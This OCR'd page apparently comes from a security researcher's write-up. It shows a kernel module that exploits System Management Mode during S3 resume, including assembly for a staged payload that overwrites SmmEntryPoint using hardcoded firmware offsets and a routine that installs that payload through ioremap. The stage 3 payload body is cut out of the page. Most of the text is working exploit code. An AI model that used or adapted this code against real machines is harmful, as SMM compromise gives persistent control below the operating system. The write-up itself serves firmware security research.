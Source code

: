 ```asm
  .ascii "0123456789ABCDEF"

addrbuf:
  .quad 0
```

And now that I have the addresses for PiSmmIpl.efi and two
EfiRuntimeServicesData pages, I can begin the SMM exploit from the kernel.
Luckily, ASLR does not affect PEI stage so S3Resume2Pei can still be hardcoded.

```C
static unsigned long RtDataPhys;
module_param(RtDataPhys, ulong, 0);
static void *RtDataVirt;
static unsigned long PiSmmIplPhys;
module_param(PiSmmIplPhys, ulong, 0);
static void *PiSmmIplVirt;

__asm__ (
	/* Stage 2 Payload: Executed post-PEI while SMRAM open, find
	   SmmEntryPoint and overwrite it with with stage 3 payload */
	" .data                                    \n"
	"PiSmmIpl_off_mSmmCorePrivateData = 0x7160 \n"
	"SmmCpuPrivateData_off_SmmEntryPoint = 32  \n"
	"payload_stage2:                           \n"
	" pushf                                    \n"
	" push %rdi                                \n"
	" push %rsi                                \n"
	" push %rcx                                \n"
	" mov payload_PiSmmIplPhys(%rip),%rdi      \n"
	" mov (PiSmmIpl_off_mSmmCorePrivateData+SmmCpuPrivateData_off_SmmEntryPoint)(%rdi),%rdi \n"
	" lea payload_stage3(%rip),%rsi            \n"
	" mov $(payload_end-payload_stage3),%rcx   \n"
	" rep movsb                                \n"
	" pop %rcx                                 \n"
	" pop %rsi                                 \n"
	" pop %rdi                                 \n"
	" popf                                     \n"

	" push $(0x00000852CC0+0x00000000000029e0) \n" // S3Resume2PeiPhys + jump target
	" ret                                      \n"

	"payload_PiSmmIplPhys:                     \n"
	" .quad 0                                  \n"

	/* Stage 3 Payload: Executed in SMM, handle write request */
	"payload_stage3:                           \n"
[...]

	"payload_RtDataPhys:                       \n"
	" .quad 0                                  \n"

	"payload_end:"
	" .text                                    \n"
	" .code64                                  \n"
);

static void install_payload(void)
{
	PiSmmIplVirt = ioremap(PiSmmIplPhys, 0x10000);
	S3Resume2PeiVirt = ioremap(S3Resume2PeiPhys, 0x10000);

	payload_PiSmmIplPhys = PiSmmIplPhys;
	payload_RtDataPhys = RtDataPhys;
```